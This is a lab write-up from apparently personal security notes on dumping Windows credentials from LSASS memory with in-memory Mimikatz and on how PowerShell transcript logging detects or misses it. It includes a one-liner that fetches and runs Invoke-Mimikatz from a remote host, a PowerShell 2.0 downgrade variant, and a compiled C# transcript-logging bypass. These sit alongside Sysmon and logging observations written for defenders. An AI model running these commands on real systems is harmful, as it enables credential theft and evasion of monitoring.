 ```yaml
---
description: >-
  Local Security Authority (LSA) credential dumping with in-memory Mimikatz
  using powershell.
---
```


# Dumping Credentials from Lsass Process Memory with Mimikatz

## Execution

{% code title="attacker@victim" %}
```csharp
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endcode %}

Hashes and plain text passwords of the compromised system are dumped to the console:

![](../../.gitbook/assets/pwdump-mimikatz-results.png)

## Observations

The process commandline is blatantly showing what is happening in this case, however, you should assume that file names and script argument names will be changed/obfuscated by a sophisticated attacker:

![victim host inspection](../../.gitbook/assets/pwdump-mimikatz.png)

As a defender, if your logs show a script being downloaded and executed in memory in a "relatively" short timespan, this should raise your suspicion and the host should be investigated further to make sure it is not compromised:

![](../../.gitbook/assets/pwdump-mimikatz-sysmon.png)

### Transcript Logging #1

PowerShell transcript logging should allow you to see the commands entered into the console and their outputs, however I got some unexpected results at first.

For the first test, I setup transcript logging in my powershell (version 2.0) profile:

{% code title="C:\Users\mantvydas\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" %}
```bash
Start-Transcript -Path C:\transcript.txt
```
{% endcode %}

{% hint style="warning" %}
Note that enabling transcription logging is not recommended from powershell profiles, since `powershell -nop` will easily bypass this defence - best if logging is enabled via GPOs.
{% endhint %}

### Cannot Start Transcript

First thing I noticed was that if at least one powershell instance was already running on the victim system, the transcript could not be started (assume because the file is in use already), which makes sense, but is not helpful for the victim at all:

![](../../.gitbook/assets/pwdump-transcript-cant-start.png)

This could be fixed by amending the PS profile so that the the transcript gets saved to a file the OS chooses itself rather than hardcoding it or in other words, doing `Start-Transcript` without specifying the path will do just fine.

### Empty Transcript - Weird

Below shows three windows stacked - top to bottom:&#x20;

1. Attacker's console via a netcat reverse shell using cmd.exe, issuing a command to dump credentials with mimikatz powershell script. Note how it says that the transcript was started and the mimikatz output follows;
2. **Empty (!)** transcript logging file transcript.txt on the victim system;
3. Process explorer on the victim system showing the process ancestry of the reverse shell cmd.exe PID `616` which had spawned the powershell process (mentioned in point 1) that ran the mimikatz script;

![](../../.gitbook/assets/pwdump-transcript-empty.png)

As can be seen from the above screenshot, the transcript.txt is empty although mimikatz ran successfully and dumped the credentials. \
\
This brings up a question if I am doing something wrong or if this is a limitation of some sort in transcript logging, so I will be trying to:

* dump credentials from a different process ancestry
* dump credentials locally on the victim system (as if I was doing it via RDP)
* upgrade powershell to 5.0+

### Dumping Credentials Locally

This works as expected and the transcript.txt gets populated with mimikatz output:

![](../../.gitbook/assets/pwdump-mimikatz-transcript.png)

### Dumping Credentials From a Different Process Ancestry

Tried dumping creds from the ancestry: \
`powershell > nc > cmd > powershell` instead of `cmd > nc > cmd > powershell` - to no avail.

### Transcript Logging #2

I have updated my Powershell version from 2.0 to 5.1 and repeated credential dumping remotely `(cmd > nc > cmd > powershell)` process ancestry, same like the first time, where the transcript.txt came back empty. This time, however, the results are different - the output is logged this time:

![Powershell 5.1 transcribing powershell console remotely with no issues](../../.gitbook/assets/pwdump-transcript-working.png)

### Back to PowerShell 2.0

Even though the victim system now has Powershell 5.0 that is capable of transcript logging, we can abuse the `-version 2` switch of the powershell.exe binary like so:&#x20;

```bash
powershell -version 2 IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

&#x20;... and the transcript will again become useless:

![](../../.gitbook/assets/pwdump-ps2-no-transcript.png)

This abuse, however, allows defenders to look for logs showing commandline arguments that suggest powershell is being downgraded and flag them as suspicious activity:

![](../../.gitbook/assets/pwdump-powershell-downgrade.png)

### Bypassing w/o Downgrading

Another technique allowing to bypass the transcript logging without downgrading is possible by using a compiled c# program by [Ben Turner](https://gist.githubusercontent.com/benpturner/d62eb027a518b3743520a34d3aecb915/raw/32d96dafe148c784706b0dc7ed1d0fbbab51c354/posh.cs):

{% file src="../../.gitbook/assets/posh.cs" %}
Transcript Bypass without Downgrade - C#
{% endfile %}

Compile the code .cs code:

```csharp
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:C:\experimemts\transcript-bypass\bypass.exe C:\experiments\transcript-bypass.cs /reference:System.Management.Automation.dll
```

If you are having problems locating the `System.Management.Automation.dll` - you can find its location by using powershell: `PS C:\Users\mantvydas> [psobject].assembly.location`

We can then launch the transcript-bypass and use powershell and not worry about the transcript, because although the file will be created, it will be showing this:

![](../../.gitbook/assets/pwdump-bypass-no-downgrade.png)

I wanted to check if I could find any traces of non-powershell.exe processes creating transcript files in the logs, so I updated the sysmon config:

{% code title="sysmonconfig.xml" %}
```markup
<FileCreate onmatch="include">
    <TargetFilename condition="end with">.txt</TargetFilename>
</FileCreate>
```
{% endcode %}

...and while I could see powershell.exe creating transcript files:

![](../../.gitbook/assets/powershell-transcript-logs.png)

I could not get sysmon to log the transcript.txt file creation event caused by the `bypass.exe` although the file got successfully created!

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1003" %}

{% embed url="https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html" %}
